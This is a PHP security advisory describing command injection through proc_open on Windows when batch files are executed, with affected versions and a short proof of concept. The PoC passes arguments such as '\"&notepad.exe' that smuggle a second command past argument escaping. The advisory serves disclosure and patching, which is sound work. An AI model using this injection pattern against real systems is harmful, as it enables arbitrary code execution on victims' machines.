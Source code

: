 # Command injection via array-ish $command parameter of proc_open even if bypass_shell option enabled on Windows
## Critical	bukka published GHSA-pc52-254m-w9w7 last week
```
Affected versions
< 8.1.28
< 8.2.18
< 8.3.5

Patched versions
8.1.28
8.2.18
8.3.6
```
## Description
### Summary

NOTE: There are undergoing reports regarding the command injection when executing the batch file, and several programming languages are coordinating the disclosure date. If you decide to not consider this as a vulnerability, please do not disclose this behavior until the end of February. If the coordinated disclosure is needed, please let me know.

Due to the improper handling of command line arguments on Windows, maliciously crafted arguments can inject arbitrary commands even if the bypass_shell option is enabled.

### Details
proc_open executes external commands passed via its arguments. 
The documentation of this function [states the following](https://www.php.net/manual/en/function.proc-open.php):

```
As of PHP 7.4.0, the command may be passed as an array of command parameters. In this case, the process will be opened directly (without going through a shell) and PHP will take care of any necessary argument escaping.
```

```
bypass_shell (windows only): bypass cmd.exe shell when set to true
```

However, when executing .bat or .cmd files, CreateProcess implicitly spawns cmd.exe, resulting in command line arguments being parsed in cmd.exe despite the documentation explicitly stating it doesn't spawn the shell.
While proc_open tries to escape the arguments, command prompts will not recognize \ as the escape character. So, the following command line argument will spawn calc.exe:


```
test.bat "\"&calc.exe"
```
### poc
1. Save the following file as test.bat.
```
echo hello
```
2. Save the following file as test.php

```
<?php
$descriptorspec = [STDIN, STDOUT, STDOUT];
$proc = proc_open(["test.bat", "\"&notepad.exe"], $descriptorspec, $pipes);
proc_close($proc);
```

3. Run it with PHP and confirm that notepad.exe is executed.
Alternatively, you can use the following PHP file to confirm that the bypass_shell option doesn't prevent this behavior.

```
<?php
$descriptorspec = [STDIN, STDOUT, STDOUT];
$proc = proc_open(["test.bat", "\"&notepad.exe"], $descriptorspec, $pipes, null, null, array("bypass_shell" => true));
proc_close($proc);
```
### Impact
This vulnerability allows malicious command line arguments to execute arbitrary commands if it's passed to .bat or .cmd through proc_open.
Since command line arguments are not expected to be parsed via the shell, it allows unexpected code executio
